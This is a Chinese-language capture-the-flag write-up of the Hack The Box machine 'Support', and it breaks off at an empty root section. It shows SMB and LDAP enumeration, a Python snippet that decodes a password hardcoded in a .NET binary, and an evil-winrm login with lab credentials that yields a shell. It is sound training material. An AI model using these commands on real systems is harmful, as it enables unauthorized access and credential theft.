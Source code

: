```yaml
---
description: Easy / 分析程序文件 / LDAP枚举 /
---
```


# ✔️ Support

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA support 10.129.230.181 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

* 先进行SMB匿名登录测试，发现可以登录上去，且有感兴趣的共享文件/support-tools（这种和靶机名称一致的提示还是蛮明显的）：

```bash
smbclient -N -L 10.129.230.181
```

<figure><img src="../../.gitbook/assets/3 (9).png" alt=""><figcaption></figcaption></figure>

* 分别尝试把这些共享文件递归下载到本地，也发现只有/support-tools的可以下载，其他的都拒绝：

```bash
smbclient //10.129.230.181/support-tools
RECURSE ON
PROMPT OFF
mget *
```

<figure><img src="../../.gitbook/assets/4 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

* 下载到Kali本地后，查看发现都是exe文件和一个压缩包文件，名称是UserInfo，猜测可能包含用户信息：

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 解压UserInfo.exe.zip，比较感兴趣的有config文件和exe文件：

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

* config文件，有.NET框架的版本号信息，其他的好像没什么了：

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

* 没有预期的任何凭证之类的内容，用enum4linux枚举也无任何收获：

```bash
enum4linux 10.129.230.181
```

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

* smbmap也没有收获：

```bash
smbmap -H 10.129.230.181 -u "" -p ""
```

<figure><img src="../../.gitbook/assets/11 (8).png" alt=""><figcaption></figcaption></figure>

* 尝试RPC空密码连接被拒绝：

```bash
rpcclient 10.129.230.181
```

<figure><img src="../../.gitbook/assets/12 (9).png" alt=""><figcaption></figcaption></figure>

* 回到刚才解压出来的UserInfo.exe，查看其信息：

```bash
file UserInfo.exe
```

<figure><img src="../../.gitbook/assets/13 (9).png" alt=""><figcaption></figcaption></figure>

* 把这个exe文件放入Windows系统中运行试试，这里要把整个解压出来的所有文件都一起放进Windows中，不然会运行不成功：

<figure><img src="../../.gitbook/assets/14 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15 (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (6).png" alt=""><figcaption></figcaption></figure>

* 因为当前没有收集到可以用的用户名，所以直接运行该程序没用：

<figure><img src="../../.gitbook/assets/17 (5).png" alt=""><figcaption></figcaption></figure>

* 把UserInfo.exe放入dnspy中分析其代码：

<figure><img src="../../.gitbook/assets/18 (6).png" alt=""><figcaption></figcaption></figure>

* 在protected目录下的.cctor()中找到编码后的密码：

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* python IDLE终端解码后得到明文密码：'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

```python
from base64 import b64decode
from itertools import cycle
pass_b64 = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
enc = b64decode(pass_b64)
[e^k^223 for e,k in zip(enc, cycle(key))]
bytearray([e^k^223 for e,k in zip(enc, cycle(key))]).decode()
```

<figure><img src="../../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>

* 使用crackmapexec验证一下凭证是否有用：

```bash
crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

<figure><img src="../../.gitbook/assets/21 (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 因为该程序的代码中的ldapquery，用的是ldap协议，所以用ldapsearch和当前已获得的有效凭证列举出AD中所有的内容：

<figure><img src="../../.gitbook/assets/23.png" alt=""><figcaption></figcaption></figure>

```bash
ldapsearch -H  'ldap://10.129.230.181' -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb"
```

* 输出结构特别多，需要仔细查看才能发现其中的support账户里包含了一个info字段，里面的字符串看上去像是密码（因为其他账户没有info这个字段）：

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

* 尝试使用evil-winrm和这个凭证连接，获取到了shell：

```bash
evil-winrm -i support.htb -u support -p 'Ironside47pleasure40Watchful'
```

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (3).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS.exe到目标系统进行信息枚举，没什么特别收获：

<figure><img src="../../.gitbook/assets/27 (3).png" alt=""><figcaption></figcaption></figure>

* 上传sharphound.exe收集信息到bloodhound里进行分析：

<figure><img src="../../.gitbook/assets/28 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/29 (3).png" alt=""><figcaption></figcaption></figure>

* 运行bloodhound把zip包拖进去即可：

<figure><img src="../../.gitbook/assets/30 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/31 (2).png" alt=""><figcaption></figcaption></figure>



### ROOT





















{% hint style="info" %}
本例虽然是被归类为简单机器，但是涉及到自己的盲区较多，看的提示较多完成度不高，对我来讲算难的机器。
{% endhint %}
